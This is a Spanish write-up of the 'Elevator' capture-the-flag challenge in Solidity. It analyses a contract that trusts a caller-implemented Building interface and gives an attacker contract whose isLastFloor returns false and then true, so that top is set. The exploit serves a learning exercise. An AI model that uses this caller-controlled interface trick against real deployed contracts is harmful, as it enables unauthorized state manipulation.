 # 11-Elevator
## Objetivo
El objetivo de este reto es lograr llegar al último piso.

## Contrato
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## Análisis de contrato
* Interface Building: 
  * declara la función isLastFloor para ser implementada por el contrato. Esta recibe un entero y retorna un booleano.
* Contrato Elevator:
  * posee la variable top, es pública y del tipo **_bool_**
  * posee la variable floor, es pública y del tipo **_uint_**
  * función goTo(), es pública y recibe como parámetro un entero. Genera una instancia de la interfaz Building. Luego valida si la función isLastFloor de la interfaz es 
distinto de verdadero tomando como valor para comparar el parámetro recibido. Si esto se cumple, asigna el parámetro recibido a la variable floor. Después, asigna a la 
variable top, el valor de ejecutar la función isLastFloor tomando el valor de la variable floor.

## Solución
La clave en este reto está en la interfaz Building. El contrato Elevator no la implementa por lo que generaremos un nuevo contrato que implemente esta interfaz a nuestro
beneficio. El objetivo es implementar la función isLastFloor de manera tal que cuando sea ejecutada, primero retorne false y luego retorne true
```
if (! building.isLastFloor(_floor)) { //PRIMERA LLAMADA
      floor = _floor;
      top = building.isLastFloor(floor); //SEGUNDA LLAMADA
    }    
```
Esto para que ingrese al if y luego setee true a la variable top.

### Contrato malicioso
```Solidity
contract hackElevator {
    Elevator public elevator = Elevator(ADDRESS DE TU INSTANCIA ELEVATOR);
    bool public flag = false;

    function go() public{
        elevator.goTo(2);
    }

    function isLastFloor(uint) external returns(bool){
        if (! flag){
            flag = true;
            return false;
        }else{
            flag = false;
            return true;
        }
    }
}
```
* Posee la variable flag que es del tipo booleano
* función go(), llama a la función goTo del contrato Elevator
* función isLastFloor, implementación de la función de la interza Building. Validamos si la variable flag es false, si esto se cumple le asignamos true y retornamos false
* si no, asigna el valor false a la variable flag y retorna true.

Ya que el contrato original no implementa la interfaz, se va a ejecutar la función de nuestro contrato en el contexto del contrato original. [Documentación de interfaces](https://docs.soliditylang.org/en/v0.8.13/contracts.html?highlight=abstract#interfaces)

Una vez deployado el contrato malicioso, ejecutamos su función go(). Validamos que la variable top posea el valor true.
Enviamos la instancia y listo! Reto completado.
